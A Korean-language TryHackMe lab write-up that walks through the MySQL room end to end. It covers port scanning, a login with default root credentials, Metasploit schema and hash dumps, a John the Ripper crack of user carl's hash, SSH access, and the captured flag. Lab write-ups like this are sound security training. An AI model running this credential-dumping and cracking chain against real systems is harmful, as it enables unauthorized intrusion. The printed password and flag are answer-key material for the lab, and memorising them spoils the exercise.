

# TryHackMe - Network Services 2 (MySQL)

> 이 실습은 TryHackMe의 Network Services 2 챕터 중 MySQL을 활용한 공격 시나리오입니다. 포트 스캔부터 DB 접속, 해시 크랙, 최종 SSH 접근 및 플래그 획득까지의 전 과정을 다룹니다.

---

## 1. 실습 개요

- **타깃 머신 IP**: `10.10.92.222`
- **공격 머신 환경**: Kali Linux 2023.4
- **실습 일자**: 2025-04-15
- **사용 도구**:
  - `nmap`: 포트 및 서비스 정보 수집
  - `mysql`: 직접 DB 접속 확인
  - `Metasploit Framework`: DB 버전, 스키마, 해시 덤프 등 정보 수집
  - `John the Ripper`: 비밀번호 해시 크랙
  - `ssh`: 시스템 로그인

---

## 2. 정보 수집

### 2.1 포트 스캔

```bash
nmap -A -vv -p- -T4 10.10.92.222 -oN nmap_scan.txt
```
- 설명: 모든 포트를 대상으로 서비스 및 버전 정보, 운영체제 탐지까지 수행. 결과적으로 22번(SSH), 3306번(MySQL) 포트가 열려 있으며 각각 OpenSSH 7.6p1 및 MySQL 5.7.29 버전이 실행 중인 것을 확인. 인증서 정보와 인증 방식(mysql_native_password)도 수집됨.

| 포트 | 서비스 | 설명 |
|------|---------|------------------------------|
| 22/tcp | ssh     | OpenSSH 7.6p1 (Ubuntu Linux) |
| 3306/tcp | mysql  | MySQL 5.7.29 (Ubuntu 18.04)   |

- 상세 스캔 결과: [nmap_scan.txt](./nmap_scan.txt) 파일 참조

---

## 3. 실습 과정

### 3.1 MySQL 직접 접속 확인

- 설명: 문제에서 제공된 아이디 비밀번호를 통해 기본 계정 정보를 이용해 DB에 직접 접속 가능한지 테스트 했습니다. 인증에 성공하면 내부 탐색이 가능합니다.

```bash
mysql -h 10.10.92.222 -u root -p
# password: password
```


---

### 3.2 Metasploit - MySQL 버전 확인

- 설명: Metasploit의 `mysql_sql` 모듈을 통해 MySQL 버전 정보를 확인 하였습니다. 취약점 존재 여부 판단에 활용을 위해 이 모듈을 사용했습니다.

```bash
use auxiliary/admin/mysql/mysql_sql
set rhosts 10.10.92.222
set username root
set password password
exploit
```


- 버전 확인 결과


- 후에 DB 목록 확인을 위해 아래 명령어를 사용했습니다.

```bash
set sql show databases
```


---

### 3.3 Metasploit - 스키마 덤프

- 설명: 사용자 계정과 패스워드를 이용하여 `mysql_schemadump` 모듈을 사용해 DB 서버에 저장된 전체 데이터베이스 목록을 수집하기 위해 사용하였습니다.

```bash
use auxiliary/scanner/mysql/mysql_schemadump
set rhosts 10.10.92.222
set username root
set password password
exploit
```


- 스키마 덤프 결과



- DB 스캔 결과: [db.txt](./db.txt) 파일 참조 (파일 내용 매우 김.)

---

### 3.4 Metasploit - 해시 덤프

- 설명: 사용자 계정과 패스워드를 이용하여 해시를 덤프하기 위해 `mysql_hashdump` 모듈을 사용하였습니다.

```bash
use auxiliary/scanner/mysql/mysql_hashdump
set rhosts 10.10.92.222
set username root
set password password
exploit
```


- 또 다른 사용자 해시 수집됨:
```
carl:*EA031893AA21444B170FC2162A56978B8CEECE18
```


---

### 3.5 John the Ripper로 비밀번호 크랙

- 설명: 이 해시는 MySQL 5.x 버전에서 사용하는 native password 인증 해시로, `SHA1(SHA1(password))` 방식입니다. 따라서 John에서 `--format=mysql-sha1` 옵션을 사용해 크랙을 시도하였습니다.

- 추가: 우선 가져온 사용자 이름과 해시 비밀번호를 `hash.txt`에 복사를 하여 실행을 했습니다.

```bash
vi hash.txt
john --format=mysql-sha1 hash.txt
john --show hash.txt
```

- 결과: `carl:doggie`


---

### 3.6 SSH 접속 및 플래그 획득

- 설명: 크랙한 계정 정보를 사용해 SSH로 시스템에 접근하고, 사용자 홈 디렉토리에서 `MySQL.txt` 파일 확인하여 플래그를 확보 했습니다.

```bash
ssh carl@10.10.92.222
# password: doggie
```

- 획득한 플래그: `THM{congratulations_you_got_the_mySQL_flag}`


---

## 4. 배운 점

- Metasploit을 활용한 DB 정보 수집이 굉장히 강력하다는걸 깨달았다. (schemadump, hashdump)
- MySQL 해시 형식(`mysql-sha1`)을 식별하고 John으로 정확히 크랙하는 방법을 습득 하였다.
- 단일 서비스에서 시작해도 SSH까지 이어지는 공격 시나리오 구성이 가능하다는 걸 알았다.
- DB 인증정보 재사용 여부가 보안에 미치는 영향을 체감했다.


